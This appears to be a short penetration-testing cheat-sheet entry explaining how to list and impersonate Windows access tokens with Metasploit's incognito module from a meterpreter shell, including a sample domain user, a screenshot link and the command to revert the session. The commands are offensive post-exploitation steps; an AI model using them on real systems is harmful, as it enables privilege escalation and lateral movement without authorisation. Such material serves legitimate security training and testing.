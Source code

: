 ## **Dumping Tokens Using Metasploit**

First of all make sure you have a `meterpreter` shell on our target system

```powershell
meterpreter > load incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token marvel\\fcastle
```


#### **Example**


![b5tFh1b.png](https://i.imgur.com/b5tFh1b.png)
![](https://i.imgur.com/b5tFh1b.png)


#### **Revert Msfconsole Shell**

This will revert the `meterpreter` session to its original state

```powershell
meterpreter > revself
```